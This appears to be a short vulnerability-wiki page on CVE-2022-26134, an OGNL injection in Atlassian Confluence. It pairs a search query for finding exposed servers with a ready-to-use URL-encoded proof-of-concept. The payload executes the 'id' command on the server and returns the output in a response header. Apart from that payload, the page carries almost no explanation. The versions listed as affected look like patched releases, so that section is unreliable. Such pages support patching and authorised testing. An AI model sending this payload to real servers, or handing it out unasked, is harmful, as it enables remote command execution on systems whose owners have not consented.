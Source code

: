 # Atlassian Confluence OGNL injection vulnerability CVE-2022-26134

## Vulnerability Description

Atlassian Confluence is a wiki system widely used by enterprises. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">7.4.17</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">7.13.7</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">7.14.3</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">7.15.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">7.16.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">7.17.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">7.18.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-Confluence"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-20220604093234758.png)

Verify POC

```php
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1654306027118-48bf3912-970a-403a-900a-dcfdd95b0cb9.png)